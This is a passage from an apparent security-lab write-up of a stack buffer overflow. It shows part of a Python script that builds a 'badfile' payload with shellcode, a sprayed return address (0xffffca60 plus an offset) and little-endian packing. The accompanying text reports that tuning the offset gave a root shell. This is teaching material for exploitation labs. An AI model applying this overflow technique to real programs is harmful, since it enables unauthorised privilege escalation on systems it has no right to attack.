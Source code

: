 ```
# Put the shellcode somewhere in the payload
#start = 0
content[517 - len(shellcode):] = shellcode # put the shell code at the end of badfile

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca60 + 300     
#offset = 0            

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

#Spray the buffer with return address
for offset in range(50):
    content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```    
![image](images/task4_3.png)

With that modified exploit we got the following result, showing that we haven't jump high enough, so we need to change the exploit.py. So now we changed the ret value from 0xffffca60 + 300, to 0xffffca60 + 400 and tried again. And just like that we got access to the root shell as shown in the print below, concluding the attack with success. 
